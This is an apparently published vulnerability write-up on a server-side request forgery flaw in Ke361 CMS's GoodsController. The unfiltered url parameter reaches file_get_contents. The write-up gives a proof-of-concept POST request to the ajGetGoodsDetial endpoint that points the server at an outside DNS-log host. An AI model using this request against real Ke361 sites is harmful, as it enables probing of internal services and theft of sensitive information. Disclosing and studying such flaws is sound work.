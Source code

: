 # Ke361 GoodsController.class.php SSRF vulnerability

## Vulnerability Description

Ke361 GoodsController.class.php URL parameter has an SSRF vulnerability, and sensitive information can be obtained through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Ke361</span>

## Environment construction

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">https://gitee.com/jcove/ke361</span>

## Vulnerability reappears

CMS Product Page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634130579841-e981591e-46f6-4aa8-bc68-6fe39d1e4e35.png)

The vulnerable file is `Application/Home/Controller/GoodsController.class.php`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634173817836-6c70b428-ad33-4f61-9c5f-94728c906ff2.png)

The URL parameters are not filtered, and the file_get_contents function is passed in, causing SSRF vulnerability and constructing requests

```php
POST /index.php?s=/Goods/ajGetGoodsDetial
 
url=http://6si2gt.dnslog.cn
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634173848355-4f9cb3d2-7e5e-4b6d-8ca7-c7fbacb844e8.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634173865625-05a6c6ce-d427-498e-80c0-ef8b6ec232a3.png)